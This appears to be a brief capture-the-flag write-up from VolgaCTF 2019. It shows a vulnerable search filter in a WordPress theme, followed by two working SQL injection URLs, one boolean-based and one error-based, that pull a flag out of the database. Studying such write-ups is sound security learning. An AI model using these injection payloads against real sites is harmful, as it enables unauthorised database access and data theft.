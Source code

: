 **Vulnerable code** /bootstarter-4-wordpress-theme-master/inc/advanced-custom-fields-support.php:

```
function cf_search_where( $where ) {
    global $pagenow, $wpdb;

    if ( is_search() ) {
        $where = preg_replace(
            "/\(\s*".$wpdb->posts.".post_title\s+LIKE\s*(\'[^\']+\')\s*\)/",
            "(".$wpdb->posts.".post_title LIKE $1) OR (".$wpdb->postmeta.".meta_value LIKE $1)", $where );
    }

    return $where;
}
add_filter( 'posts_where', 'cf_search_where' );

```

**Boolean Based:**

```
http://blog.q.2019.volgactf.ru/?s=)))or(select`flag`from`flag`)like(0x566F6C67614354467B25)%23%27)&exact=1
```

**Error Based:**

```
http://blog.q.2019.volgactf.ru/?s=)))+union+select+extractvalue(1,concat(0x3a,(select+flag+from+flag)))+%23%27)&exact=1&sentence=1
```